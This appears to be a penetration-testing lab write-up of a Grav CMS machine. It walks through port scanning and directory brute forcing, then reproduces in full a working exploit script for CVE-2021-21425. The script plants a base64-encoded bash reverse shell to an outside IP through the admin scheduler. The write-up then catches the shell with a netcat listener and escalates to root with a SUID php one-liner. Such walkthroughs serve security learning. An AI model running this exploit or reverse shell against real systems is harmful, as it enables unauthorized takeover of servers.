





IP:  192.168.188.12

# Recon
## Nmap

`nmap` finds two ports open, SSH (22) and HTTP (80)

```bash
$ nmap -Pn -p- 192.168.188.12 -oN ports.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41

$ nmap -Pn -sVC -p 22,80 192.168.188.12 -oA astronaut

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 20:41 EDT
Nmap scan report for 192.168.188.12
Host is up (0.045s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds
```

## Web Application - TCP 80
### Site

The site takes us to a directory listing that reveals a `grav-admin` directory:



### Tech Stack

Visiting this directory reveals that the webapp is managed by the open-source flat-file `Grav` CMS:


### Directory Brute Force

Using `ffuf` to further scrape all possible directory endpoints on the webapp.

```bash
$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.188.12/FUZZ -ic

________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.188.12/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 758, Words: 55, Lines: 16, Duration: 40ms]
                        [Status: 200, Size: 758, Words: 55, Lines: 16, Duration: 51ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 41ms]

```

Now I can brute force directories for the `grav-admin` directory, however this time with dirsearch.

```bash
$ dirsearch -u http://192.168.188.12/grav-admin/ -x 404 -o astronaut.dirsearch

200    15KB  http://192.168.188.12/grav-admin/admin
200    15KB  http://192.168.188.12/grav-admin/admin.html
200    14KB  http://192.168.188.12/grav-admin/login
200    14KB  http://192.168.188.12/grav-admin/login.html
200    14KB  http://192.168.188.12/grav-admin/login.htm
200     4KB  http://192.168.188.12/grav-admin/login.json
200   131B   http://192.168.188.12/grav-admin/robots.txt
200     1KB  http://192.168.188.12/grav-admin/vendor/composer/LICENSE
200   124KB  http://192.168.188.12/grav-admin/vendor/composer/installed.json

# ffuf finds a few more directories that resolve to a 200 code. Everything else leads to a 403 Forbidden
forgot_password         [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 561ms]
typography              [Status: 200, Size: 16420, Words: 2406, Lines: 254, Duration: 372ms]
user_profile            [Status: 200, Size: 13974, Words: 3067, Lines: 190, Duration: 326ms]
```

# Shell as www-data
## CVE-2021-21425
### Identify

Doing some research with google gives us top hits for what seems to be one emphasized CVE:



Using `searchsploit` helps further identify that we should give this exploit a try.

```bash
$ searchsploit grav

Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2) <------ 
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)
```

## Shell
### Script

I will be using the python script given on [Exploit-DB](https://www.exploit-db.com/exploits/49973). Also, we must make sure to change key values within the script (marked with arrows below).

```python
#/usr/bin/python3

import requests
import sys
import re
import base64
target= "http://192.168.188.12/grav-admin" # <---------------
#Change base64 encoded value with with below command.
#echo -ne "bash -i >& /dev/tcp/192.168.1.3/4444 0>&1" | base64 -w0 
payload=b"""/*<?php /**/
file_put_contents('/tmp/rev.sh',base64_decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMy80NDQ0IDA+JjE='));chmod('/tmp/rev.sh',0755);system('bash /tmp/rev.sh'); 
""" # <------------------------
s = requests.Session()
r = s.get(target+"/admin")
adminNonce = re.search(r'admin-nonce" value="(.*)"',r.text).group(1)
if adminNonce != "" :
    url = target + "/admin/tools/scheduler"
    data = "admin-nonce="+adminNonce
    data +='&task=SaveDefault&data%5bcustom_jobs%5d%5bncefs%5d%5bcommand%5d=/usr/bin/php&data%5bcustom_jobs%5d%5bncefs%5d%5bargs%5d=-r%20eval%28base64_decode%28%22'+base64.b64encode(payload).decode('utf-8')+'%22%29%29%3b&data%5bcustom_jobs%5d%5bncefs%5d%5bat%5d=%2a%20%2a%20%2a%20%2a%20%2a&data%5bcustom_jobs%5d%5bncefs%5d%5boutput%5d=&data%5bstatus%5d%5bncefs%5d=enabled&data%5bcustom_jobs%5d%5bncefs%5d%5boutput_mode%5d=append'
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    r = s.post(target+"/admin/config/scheduler",data=data,headers=headers)
```

Once we fully edit the script, we want to start a listener on the IP and port we chose for our payload.

```bash
$ nc -nvlp 443
```

Executing the script throws no error. However, it seems to have taken ~1 min to get a callback to our machine.


# Shell as root
## Enumeration
### Home Directories

There is only one user on this box that we could possibly escalate to:

```bash
# Checking home directories
www-data@gravity:/home$ ls
alex

# Checking passwd file
www-data@gravity:/home$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
alex:x:1000:1000::/home/alex:/bin/bash
```

### Web Root Directory

There are many interesting files to look through. After looking through multiple directories and files, we find two interesting files.

**File #1**: `/var/www/html/grav-admin/user/accounts/admin.yaml` reveals a hash for the user admin (bcrypt)



Unfortunately, cracking this hash seems to be unsuccessful. The next file found is a backup zip file of the default webapp.

I want to possibly extract the same file `admin.yaml` and see if there is anything different with the password.

**File #2**: `/var/www/html/grav-admin/backup/default_site_backup--20240522030002.zip`


After transferring and unzipping the compressed file, I noticed that the `admin.yaml` file contained the same hash as the one we found before.



## Shell
### SUID bit set

After spending lots of time trying to manually enumerate the webapp's files, and server files, I finally attempted to look for binaries with an SUID (Set User ID) bit set.

>Binaries that has the SUID bit set runs with the permissions of the file owner rather than the user who executed it. This can lead to privilege escalations.



This specific `php7.4` binary is not common when looking for binaries with a SUID bit set. Looking at [GTFOBins - PHP](https://gtfobins.github.io/gtfobins/php/#suid) gives us an example on how to leverage this SUID bit set.

```bash
./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

We can take this and just replace `./php` with `php7.4`, ultimately giving us a shell as root.


---
# References

- GTFOBins|PHP - https://gtfobins.github.io/gtfobins/php/#suid
- CVE-2021-21425 - https://www.exploit-db.com/exploits/49973